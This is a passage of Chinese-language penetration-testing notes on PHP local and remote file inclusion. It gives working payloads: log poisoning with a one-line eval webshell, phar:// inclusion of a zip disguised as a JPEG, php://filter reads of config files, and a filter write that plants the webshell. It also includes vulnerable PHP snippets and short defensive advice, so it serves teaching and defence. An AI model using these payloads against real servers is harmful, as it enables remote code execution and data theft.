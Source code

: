 - 通过`GET /<?php @eval($_REQUEST['cmd']);?> HTTP/1.1`请求服务器后，会在服务器日志中留下记录，如果服务器日志为默认路径可以通过`?page=/var/log/error.log`来getshell
- 将一句话木马打包成zip格式后，重命名为phpinfo.jpg，上传到服务器images目录后，通过`file=phar://./images/phpinfo.jpg/getshell.php`来getshell

```php
#远程文件包含需要php.ini中设置如下
allow_url_fopen=On
allow_url_include=On
```

## php伪协议

- `file://`访问操作系统本地文件的文件系统`file:///etc/passwd、file://C:\Windows\system.ini`
- `http://`访问http(s)协议的url`?page=http://file.local.com/LFI/phpinfo.txt`
- `ftp://`访问ftp(s)协议的url`?page=ftp://user:pass@ftp.local.com/phpinfo.txt`
- `php://`访问各个I/O流`php://filer php://input`
- `zlib://、zip://`压缩流协议`zip://压缩包绝对路径#压缩文件内的子文件名`
- `data://`数据流协议`data://text/plain;base64,YWJjZA==`
- `glob://`php自带的文件目录管理协议，查找匹配的文件路径模式
- `phar://`php归档（解压）协议`phar://压缩包/压缩文件内的子文件名`

## 例子

```php
<?php
$filename=$_REQUEST['file'];
$file_contents=file_get_contents($filename);
echo $file_contents;
?>
```

- 用`file=php://filter/read=/resource=../config.php`来读取文件
- 用`file=php://filter/read=convert.base64-encode/resource=../config.php`来读取base64编码后的文件

```php
<?php
$filename=$_REQUEST['file'];
$txt=$_GET['txt'];
file_put_contents($filename,$txt);
?>
```

- 用`file=php://filter/write=convert.base64-encode/resource=../info.php&txt=PD9waHAgQGV2YWwoJF9SRVFVRVNUWydjbWQnXSk7Pz4=`来将`<?php @eval($_REQUEST['cmd']);?>`base64编码后的内容写入info.php

## 文件包含防御

- 保证参数用户不可控、不可构造
- 对参数判断，过滤`'.','..','/','\'`字符，同时使用basename()函数处理参数
- 避免使用动态包含，在需要包含的页面中对所有变量初始化

# 任意文件下载或读取漏洞
